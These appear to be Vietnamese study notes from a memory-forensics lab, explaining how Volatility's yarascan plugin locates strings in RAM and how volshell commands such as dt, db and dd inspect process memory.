- **Bản chất:** YARA là một công cụ giúp nhận dạng và phân loại mã độc dựa trên các mẫu (patterns) là chuỗi văn bản (text) hoặc chuỗi nhị phân (binary). Nó giống như việc bạn dạy cho hệ thống nhận diện gương mặt của một tội phạm dựa trên đặc điểm: "Có nốt ruồi dưới mắt trái, cao 1m8, hay mặc áo đỏ".
- **Plugin** **`yarascan`** **trong Volatility:** Đây là sự kết hợp hoàn hảo. Volatility đem sức mạnh của YARA vào việc quét bộ nhớ RAM (Memory).

**Chức năng chính của** **`yarascan`****:**
Khi bạn chạy `yarascan -Y "chuỗi_ký_tự"`, Volatility sẽ:

1. Luồn sâu vào không gian bộ nhớ (kể cả những vùng bị che giấu).
2. Quét từ đầu đến cuối xem chuỗi "chuỗi_ký_tự" đó nằm ở tọa độ (địa chỉ ảo) nào.
3. Khi tìm thấy, nó sẽ cung cấp cho bạn 2 thứ cực kỳ giá trị:
	- **Địa chỉ Virtual Address (0x...):** Tọa độ chính xác của đoạn chữ đó (Để bạn điền vào câu Q10).
	- **Hex Dump & ASCII:** Nó in ra khu vực xung quanh đoạn chữ đó dưới dạng mã Hex và chữ thường để bạn xem có giấu thêm mật khẩu/thông tin gì ở quanh đó không.

**Ví dụ thực tế:**

- Nếu `strings` giống như việc bạn đổ một xô cát ra và nhặt được các vỏ sò (chỉ biết nó có vỏ sò, không biết nguồn gốc).
- Thì `yarascan` giống như bạn cầm một chiếc máy dò kim loại đi dò trên bãi biển. Khi nó kêu "Bíp", nó không chỉ cho bạn biết có kim loại, mà còn chỉ chính xác tọa độ (kinh độ, vĩ độ) của cục kim loại đó dưới lòng đất (RAM).

### volshell {#34a7b0eb61a480b18fece5c4ba6ea83b}


Là plugin phục vụ phân tích trực tiếp trên RAM

- cc(pid=1234): di chuyển vào bộ nhớ của pid
- dt(”ten_cau_truc”, dia_chi):   Ví dụ: `dt("_EPROCESS")` sẽ in ra toàn bộ thông tin nội bộ của một tiến trình.
- **`db(địa_chỉ, số_lượng)`** **(Display Bytes):** Lệnh bạn vừa dùng. Nó in dữ liệu ra dưới dạng bảng mã Hex và ASCII.
- **`dd(địa_chỉ)`** **(Display Dwords):** Đọc dữ liệu theo từng khối 4 byte (rất hữu ích khi tìm kiếm các địa chỉ IP hoặc con trỏ bộ nhớ).

volshell sẽ hữu ích:

- Hacker dùng DKOM (direct kernel object manipulation): tách khỏi dslk làm mù pslist.
- Mã độc tự viết: như trường hợp hacker giấu thông tin ở câu 11
- Tự viết plugin: dùng volshell để chạy python trước khi đóng gói thành plugin hoàn chỉnh
